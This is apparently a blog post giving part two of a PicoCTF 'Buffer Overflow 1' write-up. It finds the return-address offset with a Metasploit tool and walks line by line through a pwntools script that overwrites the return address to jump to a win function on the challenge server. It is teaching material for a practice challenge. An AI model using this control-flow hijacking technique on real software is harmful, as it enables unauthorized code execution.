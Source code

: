 ```yaml
---
layout: post
title: "Buffer Overflow 1 Challenge - Part 2"
date: 2024-04-09
categories: CTF
tags: [cyber-security, reverse-engineering, binary-exploitation, python]
author: sam
img_path: /assets/img/posts
---
```


## Buffer Overflow 1 Challenge - Part 2 - PicoCTF

- Now we know the unknown address that effects the vuln. Lets find the offset

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x35624134   
```
![Pic 5](buffer5.webp){:style="display:block; margin-left:auto; margin-right:auto; width:80%; border: 3px solid black;"}
_Offset found_

> [*] Exact match at offset 44

- We can now find the win address (the treasure chest)

> Obtaining the Flag: The goal of the exploit is to retrieve the flag, which is stored within the win function. This function reads the flag from a file and prints it to the console. Without executing the win function, we won't be able to access the flag.
> Control Flow Hijacking: The buffer overflow vulnerability in the vuln program allows us to overwrite the return address on the stack. By replacing the return address with the address of the win function, we hijack the program's control flow. When the vulnerable function finishes executing, instead of returning to the original calling function, it jumps to the win function, executing its code.

![Pic 6](buffer6.webp){:style="display:block; margin-left:auto; margin-right:auto; width:80%; border: 3px solid black;"}
_Win function is the first line_

### Writing the code, we have what we need

```python
conn = remote('saturn.picoctf.net', 57712) 
```
This line establishes a connection (conn) to the remote server 'saturn.picoctf.net' on port 57712, where the vulnerable program is running. The remote() function is provided by pwntools to handle network communication.

```python
offset = 44
target_address = 0x080491f6
```
These lines define the offset (the number of characters needed to reach the return address) and the address of the target function (win). You obtained these values during the analysis of the vulnerable program.

```python
payload = b'A' * offset + p32(target_address)
```

This line constructs the exploit payload. It consists of two parts
Padding (b'A' * offset): Fills the buffer with a sequence of 'A' characters to reach the return address.
Return Address (p32(target_address)): Packs the address of the target function (win) into little-endian format using p32().

```python
conn.sendline(payload)
```

This line sends the crafted payload to the vulnerable program over the established connection (conn). The sendline() function sends the payload followed by a newline character (\n), which is often required to trigger the vulnerable code.

```python
print(conn.recvall().decode())
```
This line receives the response from the vulnerable program after sending the payload. The recvall() function waits to receive all available data from the connection. The decode() method converts the received data from bytes to a string before printing it to the terminal.

![Pic 7](buffer7.webp){:style="display:block; margin-left:auto; margin-right:auto; width:80%; border: 3px solid black;"}
_Full python code_


Last step is your run your program and hope it works

![Pic 8](buffer8.webp){:style="display:block; margin-left:auto; margin-right:auto; width:80%; border: 3px solid black;"}
_Here is the flag!_

